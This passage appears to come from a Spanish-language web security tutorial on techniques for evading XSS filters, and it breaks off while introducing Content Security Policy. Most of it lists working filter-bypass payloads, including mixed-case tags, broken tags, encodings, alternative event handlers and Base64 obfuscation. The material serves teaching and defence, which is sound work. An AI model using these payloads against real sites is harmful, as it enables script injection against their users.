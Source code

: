 
### Técnicas de Evasión de Filtros (Bypasses)

Los filtros XSS (WAFs, sanitizadores del lado del servidor o cliente) intentan bloquear payloads conocidos. Los atacantes usan técnicas de evasión:

- **Case Insensitivity:** `<ScRiPt>alert(1)</sCrIpT>`
- **Mezcla de Mayúsculas/Minúsculas en Event Handlers:** `<img src=x oNerroR=alert(1)>`
- **Tags Incompletos o Rotos (Tag Breaking):** `<sc<script>ript>alert(1)</sc</script>ript>`
- **Caracteres Nulos (Null Bytes):** `<img%00src=x onerror=alert(1)>` (si el backend los maneja mal).
- **Codificación (Encoding):**
  - URL Encoding: `%3Cscript%3Ealert(1)%3C/script%3E`
  - HTML Entities (decimal/hex): `&lt;script&gt;alert(1)&lt;/script&gt;`, `&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;`
  - Doble Codificación: `&amp;lt;script&amp;gt;` -> `&lt;script&gt;` (si hay múltiples decodificaciones).
- **Uso de Caracteres Alternativos o Comentarios:**
  - Espacios/Tabs/Saltos de línea: `<img src = x onerror = alert(1)>`
  - Barra `/` en lugar de espacio: `<img/src=x/onerror=alert(1)>`
  - Comentarios HTML/XML: `<img src="x"onerror=alert(1)>`
  - Comentarios JavaScript: `<img src=x onerror="/*EVIL*/alert(1)//">`
- **Event Handlers Alternativos:** En lugar de `onerror`, usar `onmouseover`, `onclick`, `onfocus`, `onload`, `oncopy`, `oncut`, `onpaste`, etc.
  - `<svg onload=alert(1)>`
  - `<body onload=alert(1)>` (si puedes inyectar la etiqueta body)
  - `<div onpointerover="alert(1)">Pasa el ratón</div>`
- **Tags HTML Alternativos para Ejecutar JS:**
  - `<img src=x onerror=alert(1)>`
  - `<svg onload=alert(1)></svg>`
  - `<iframe src="javascript:alert(1)"></iframe>`
  - `<body onload=alert(1)>`
  - `<video><source onerror="javascript:alert(1)">`
  - `<audio src=x onerror=alert(1)>`
  - `<details open ontoggle=alert(1)>`
  - `<marquee onstart="alert(1)">`
- **JavaScript Obfuscation:**
  - `eval(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))` (payload `alert(document.domain)` codificado en Base64).
  - `String.fromCharCode(97,108,101,114,116,40,49,41)` (para `alert(1)`).
  - Uso de template literals: ``javascript:alert`1```
- **Mutación XSS (mXSS):** El navegador "corrige" HTML malformado de una manera que crea una vulnerabilidad XSS que no era obvia en el HTML original. Ocurre por diferencias en cómo el parser del navegador y el sanitizador/WAF interpretan el HTML.

### Content Security Policy (CSP) y sus Bypasses

**Content Security Policy (CSP)** es una cabecera HTTP (`Content-Security-Policy: ...`) que permite a los administradores de sitios web controlar los recursos que el navegador está autorizado a cargar para una página dada. Ayuda a prevenir y mitigar XSS.
